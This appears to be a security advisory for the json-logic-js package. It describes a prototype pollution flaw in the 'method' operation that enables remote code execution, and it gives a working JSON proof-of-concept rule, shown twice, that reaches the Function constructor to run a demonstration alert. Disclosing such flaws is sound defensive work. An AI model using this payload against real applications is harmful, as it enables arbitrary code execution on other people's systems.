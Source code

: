 # Overview

`json-logic-js` is a Build complex rules, serializes them as JSON and execute them in JavaScript.

This package is vulnerable to Prototype Pollution, the method operation allows a malicious user to modify the prototype of Object through the method property name. This causes modification of any existing property that will exist on all objects and leads to Remote Code Execution. The following rule creates a popup when run from a browser.

# Proof of Concept

```
{
  "method": [
    {
      "method": [
        {
          "var": "__proto__.constructor.is.__proto__"
        },
        "constructor",
        [
          "var x = 'SECURITY!'; console.log(x, window.fetch); alert(x)"
        ]
      ]
    },
    "call"
  ]
}
```

```
{ "method": [ { "method": [ { "var": "__proto__.constructor.is.__proto__" }, "constructor", [ "var x = 'SECURITY!'; console.log(x, window.fetch); alert(x)" ] ] }, "call" ] }
```
